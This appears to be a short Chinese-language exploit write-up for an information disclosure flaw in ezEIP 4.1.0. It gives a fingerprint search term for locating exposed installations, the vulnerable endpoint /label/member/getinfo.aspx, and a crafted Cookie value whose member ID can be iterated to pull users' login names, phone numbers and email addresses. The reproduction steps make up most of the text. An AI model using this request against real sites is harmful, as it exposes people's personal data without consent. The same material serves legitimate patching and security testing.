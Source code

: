 # ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

```
ezEIP 4.1.0
```

## 网络测绘

```
"ezEIP"
```

## 漏洞复现

漏洞Url为

```plain
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```plain
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![](images/202202162312106.png)